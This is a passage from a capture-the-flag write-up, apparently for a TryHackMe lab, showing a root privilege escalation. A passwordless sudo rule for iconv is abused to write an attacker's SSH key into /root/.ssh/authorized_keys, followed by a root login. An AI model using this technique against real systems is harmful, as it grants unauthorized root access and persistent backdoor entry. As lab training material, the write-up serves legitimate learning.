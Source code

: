 ## sudo privileges
Before ran emumerting scripts like linpeas. Let's see about sudo privileges given into the user.

```bash
scamsite@TechSupport:~$ sudo -l
Matching Defaults entries for scamsite on TechSupport:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User scamsite may run the following commands on TechSupport:
    (ALL) NOPASSWD: /usr/bin/iconv
```
I search about this on gtfobins(https://gtfobins.github.io/gtfobins/iconv/).

![](Images/gtfo.png)

I think we got two methods to get a root flag.

## Method 1 - Login into root account
We can overwritten or put a new ssh key to the system. First we need to genarate a ssh key on our machine by typing **ssh-keygen** command and do the following commands. 
```bash
LFILE=/root/.ssh/authorized_keys

echo "your id_rsa.pub" | sudo iconv -f 8859_1 -t 8859_1 -o "$LFILE"
```
Then we can log into the root account by using our private key.
```bash
┌──(defalt@kali)-[~/Documents/tryhackme/Tech_Supp0rt:1]
└─$ ssh root@10.10.252.87 -i id_rsa 
Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.4.0-186-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


120 packages can be updated.
88 updates are security updates.


Last login: Sun Nov 21 11:17:57 2021
root@TechSupport:~# ls
root.txt
root@TechSupport:~# cat root.txt
851b8233a8c09400ec30651bd152**********  -
root@TechSupport:~# 
```
